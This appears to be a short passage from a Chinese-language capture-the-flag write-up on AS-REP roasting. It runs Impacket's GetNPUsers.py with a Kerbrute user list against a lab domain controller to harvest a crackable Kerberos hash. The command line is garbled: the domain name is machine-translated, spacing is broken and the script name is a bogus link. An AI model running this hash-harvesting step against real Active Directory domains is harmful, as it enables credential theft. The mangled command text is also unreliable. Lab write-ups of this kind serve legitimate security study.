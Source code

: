 ![](img/45439582ed54a800469e7a6c49bedbb4.png)

# 9)获取哈希

我将使用从 Kerbrute 收集的用户列表，并运行 [GetNPUsers.py](http://getnpusers.py/) 来查找易受攻击的用户。其中三个并不脆弱，但有一个给出了一个散列:

[GetNPUsers.py](http://getnpusers.py/) '自负的-银行。LOCAL/'-users file users . txt-format hashcat-output file hashes . aspreroast-DC-IP 10 . 10 . 10 . 175

![](img/9f6ed2b4a73c337ce30450421172dc08.png)
